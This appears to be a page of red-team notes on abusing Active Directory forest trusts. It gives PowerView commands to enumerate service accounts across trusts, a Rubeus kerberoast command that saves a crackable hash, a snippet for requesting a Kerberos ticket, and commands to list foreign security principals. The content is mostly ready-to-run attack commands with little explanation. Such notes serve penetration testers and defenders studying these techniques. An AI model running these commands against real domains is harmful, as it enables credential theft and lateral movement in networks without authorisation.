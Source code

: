 ## Abuse Cross Forest

### Kerberoast

It's possible to execute kerberoast across Forest Trusts.

To enumerate service account across forest using powerview:

{% code overflow="wrap" %}
```powershell
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```
{% endcode %}

And Kerberoast the found account

{% code overflow="wrap" %}
```powershell
./Rubeus.exe kerberoast /user:<$Found User> /simple /domain:<Domain> /outfile:hash.txt
```
{% endcode %}

Crack it and request a TGT across the trust:

{% code overflow="wrap" %}
```powershell
Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <$Account>/<$Machine>@<$Domain>
```
{% endcode %}

### Foreign Security Principals (FSP)

To enumerate with powerview

```powershell
 Find-ForeignGroup -Verbose
 Find-ForeignUser -Verbose 
```

With AD-Module

{% code overflow="wrap" %}
```powershell
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server <$Server>
```
{% endcode %}
